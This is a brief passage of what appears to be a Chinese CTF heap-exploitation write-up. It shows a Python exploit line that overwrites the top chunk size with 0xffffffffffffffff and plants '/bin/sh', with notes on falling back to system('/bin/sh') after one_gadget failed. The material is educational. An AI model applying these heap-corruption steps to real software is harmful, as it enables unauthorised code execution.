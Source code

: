 [![](assets/1701612371-9690b0d4d89a86302296f2a763b93ff4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145748-96eeb32e-17dc-1.png)

```plain
top_chunk_addr=add(0x10,'a'*0x10+b'/bin/sh\x00'+p64(0xffffffffffffffff))+0x10
leak('top_chunk_addr',top_chunk_addr)
```

这里写入 /bin/sh\\x00 是因为后面用og和realloc调不成功，所以用system打，这里因为有堆地址，直接申请堆地址就能执行system('/bin/sh\\x00') \[因为没有对申请的size限制，所以可以这样打\]  
修改了top chunk 的 size  
下面为了好分析，还是关掉ASLR

[![](assets/1701612371-fc0561f7361dd09943bfcf0a8696b585.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145816-a73e09be-17dc-1.png)
